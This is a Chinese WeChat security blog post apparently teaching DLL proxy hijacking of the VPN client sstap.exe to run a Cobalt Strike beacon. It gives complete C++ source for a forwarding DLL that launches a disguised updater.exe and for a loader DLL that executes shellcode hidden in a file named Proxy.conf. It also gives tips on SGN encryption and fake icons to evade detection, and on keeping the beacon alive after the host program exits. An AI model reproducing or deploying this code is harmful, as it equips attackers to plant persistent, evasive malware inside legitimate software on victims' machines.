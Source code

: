 #  DLL转发劫持还能这么玩？

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

**Relay学安全** ![]()

微信号 gh_8d57319ec39c

功能介绍
这是一个纯分享技术的公众号，只想做安全圈的一股清流，不会发任何广告，不会接受任何广告，只会分享纯技术文章，欢迎各行各业的小伙伴关注。让我们一起提升技术。

____

___发表于_

发现很多网上都是直接劫持目标程序加载DLL，直接转发DLL劫持，然后将shellcode写到劫持的那个DLL里面。

最终目标程序加载我们恶意DLL的时候成功上线。

那么我们思考一下，shellcode写入到dll中肯定是被查杀的不用说。

那么我们能不能通过转发dll劫持去点击白程序，然后通过白程序去加载我们的恶意dll呢？

比如说我们现在有一个sstap.exe这个程序，这个程序是一个VPN软件，当执行它的时候会加载很多的dll文件。

那么我们通过DLL转发劫持，拿到一个新的DLL之后，在新的DLL中写入打开白程序的代码，通过白程序去加载黑DLL。就算将sstap.exe退了，也不会导致我们的beacon下线。

如下图:

![]()

那么我们来一步一步的实现，首先我们肯定先要做一个DLL转发劫持。

这里使用到AheadLib工具来做转发DLL劫持。

这里我们使用到的程序是sstap.exe，当然你也可以使用其他的。

![]()

这里需要将原始DLL的名字更改一下这里，改成libiconv2Help，其实也可以更改为其他名字，只要不是那么明显就好，点击生成即可。

生成代码如下:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <Windows.h>#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){  if (dwReason == DLL_PROCESS_ATTACH)  {    DisableThreadLibraryCalls(hModule);  }  else if (dwReason == DLL_PROCESS_DETACH)  {  }  
      return TRUE;}

现在我们来实现第二步，在DLLMain方法中需要通过创建一个线程去执行点击操作。

如下代码:
可以看到这里通过ShellExecute函数去点击updater.exe，也就是说我们去运行sstap.exe的时候他会加载libiconv2.dll，而这个dll被我们转发劫持掉了，而转发的这个dll中写的就是点击updater.exe，当点击updater.exe的时候他就会去加载黑DLL上线。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    // 头文件#include "pch.h"#include <Windows.h>#include <iostream>#include <Windows.h>#include <shlwapi.h>#include <shlobj_core.h>#pragma comment(lib, "Shlwapi.lib")#include <ShellAPI.h>  
    // 导出函数#pragma comment(linker, "/EXPORT:DllGetVersion=libiconv2Help.DllGetVersion,@1")#pragma comment(linker, "/EXPORT:_libiconv_version=libiconv2Help._libiconv_version,@2")#pragma comment(linker, "/EXPORT:libiconv=libiconv2Help.libiconv,@3")#pragma comment(linker, "/EXPORT:libiconv_close=libiconv2Help.libiconv_close,@4")#pragma comment(linker, "/EXPORT:libiconv_open=libiconv2Help.libiconv_open,@5")#pragma comment(linker, "/EXPORT:libiconv_set_relocation_prefix=libiconv2Help.libiconv_set_relocation_prefix,@6")#pragma comment(linker, "/EXPORT:libiconvctl=libiconv2Help.libiconvctl,@7")#pragma comment(linker, "/EXPORT:libiconvlist=libiconv2Help.libiconvlist,@8")#pragma comment(linker, "/EXPORT:locale_charset=libiconv2Help.locale_charset,@9")  
      
    DWORD WINAPI run(LPVOID lpParameter) {  ShellExecute(NULL, L"open", L"updater.exe", NULL, NULL, SW_SHOW);  return 0;}  
    // 入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){  if (dwReason == DLL_PROCESS_ATTACH)  {    CreateThread(NULL, 0, run, NULL, 0, NULL);    DisableThreadLibraryCalls(hModule);    }  else if (dwReason == DLL_PROCESS_DETACH)  {  }  
      return TRUE;}

我们生成DLL之后通过resource Hacker去给他打上kernel32.res的资源。

  

![]()

然后我们将它拉入到SSTAP包中，更改名称为libiconv2.dll即可，然后将原始的DLL的名字更改为libiconv2Help.dll即可。

![]()

然后我们需要白程序和黑DLL也拉进去。

这里黑DLL也是需要在导出函数中写你的loader。

代码如下: 需要注意的是这里我们读取的Proxy.conf文件，这个文件就是我们的shellcode。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    // dllmain.cpp : 定义 DLL 应用程序的入口点。#include "pch.h"#include <Windows.h>  
      
    extern "C" __declspec(dllexport) int error_output() {           return 0;}extern "C" __declspec(dllexport) int dirutils_path_transform() {     return 0;}extern "C" __declspec(dllexport) int autolog_init() {     return 0;}extern "C" __declspec(dllexport) int error_output_check() {    DWORD dwSize;    DWORD dwReadSize;    HANDLE hFileNew;    hFileNew = CreateFile(L"Proxy.conf", GENERIC_ALL, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);  
        if (hFileNew == INVALID_HANDLE_VALUE)    {        return 0;    }  
        dwSize = GetFileSize(hFileNew, NULL);  
        void* exec = VirtualAlloc(0, dwSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);  
        ReadFile(hFileNew, exec, dwSize, &dwReadSize, NULL);  
        ((void(*)())exec)();     return 0;}  
      
    BOOL APIENTRY DllMain( HMODULE hModule,                       DWORD  ul_reason_for_call,                       LPVOID lpReserved                     ){    switch (ul_reason_for_call)    {    case DLL_PROCESS_ATTACH:        case DLL_THREAD_ATTACH:    case DLL_THREAD_DETACH:    case DLL_PROCESS_DETACH:        break;    }    return TRUE;}

将白程序和黑dll以及shellcode放到sstap目录中，这里的白程序为了不引人注意，所以添加了icon图标，当然你也可以添加，其实也是通过resource
hacker去添加的。

如下图:

![]()

然后当我们去运行sstap.exe的时候如下:

  * 

    
    
    sstap.exe加载libiconv2.dll -> libiconv2.dll点击updater.exe -> updater.exe加载黑DLL + 最后加载shellcode

这里的shellcode可以通过SGN去加密即可。

当我们点击sstap.exe的时候，正常打开,如下图:

![]()

然后我们来到Cobalt Strike这里可以看到已经上线了。

并且上线的并不是sstap.exe，而是updater.exe。

![]()

当我们将sstap.exe退了之后会发现我们的beacon.exe是不会掉的。因为进程中跑的是updater.exe。

![]()

最后别忘了转发噢。

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# DLL转发劫持还能这么玩？

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

轻触阅读原文

![]()

Relay学安全

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

